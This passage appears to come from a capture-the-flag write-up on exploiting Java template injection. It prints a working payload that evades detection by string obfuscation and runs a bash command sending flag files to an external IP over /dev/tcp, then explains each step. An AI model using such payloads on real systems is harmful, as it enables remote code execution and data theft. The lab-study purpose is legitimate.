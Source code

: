 #### Showtime

To listen on public IP we can either use Ngrok or any cloud instance reachable from internet, and here I have used GCE listening on port 1337.

Our final payload is `"".getClass().forName("jawa.lang.Runtime".replace("w","v")).getRuntime().exec("bash -c cat${IFS}/flag*>&/dev/tcp/35.184.189.108/1337<&1")`

<img src="../image/htb.gif" alt="script" width="500"/>

#### Exploit Code Explanation 

- "".getClass().forName():
This part creates an empty string and retrieves its class object, which is java.lang.String.class. This is a way to get a reference to the class loader.

- .forName("jawa.lang.Runtime".replace("w","v")):
This line attempts to load a class by name. It takes the string "jawa.lang.Runtime" and replaces the letter w with v, resulting in "java.lang.Runtime". This is a clever way to obfuscate the string to avoid detection while still correctly referencing the Runtime class.

- .getRuntime():
This calls the static method getRuntime() of the Runtime class, which returns the current runtime object. This object allows the application to interface with the environment in which it is running.

- .exec("bash -c cat${IFS}/flag*>&/dev/tcp/35.184.189.108/1337<&1"):
This method executes the specified string command in a separate process.

## References
>https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability
>https://blog.spoock.com/2018/11/25/getshell-bypass-exec/
>https://exploit-notes.hdks.org/exploit/web/framework/java/spring-pentesting/
>https://portswigger.net/research/server-side-template-injection
>https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
>https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
